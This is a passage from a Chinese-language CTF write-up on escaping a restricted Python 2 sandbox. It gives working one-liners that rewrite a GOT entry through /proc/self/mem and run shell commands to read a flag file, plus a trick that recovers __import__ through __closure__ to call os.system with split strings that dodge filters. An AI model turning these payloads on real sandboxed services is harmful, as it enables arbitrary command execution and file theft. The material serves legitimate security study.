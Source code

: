 修改 got
```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))


(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```
### 0x03
间接引用
在不断的 dir 过程中，发现 __closure__  这个 object 保存了参数，可以引用原生的 __import__
```py

print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('l'+'s home') 
```
# 参考
https://xz.aliyun.com/t/52#toc-10 
https://blog.csdn.net/qq_35078631/article/details/78504415 
https://www.anquanke.com/post/id/85571 
http://bestwing.me/2018/05/03/awesome-python-sandbox-in-ciscn/#0x01
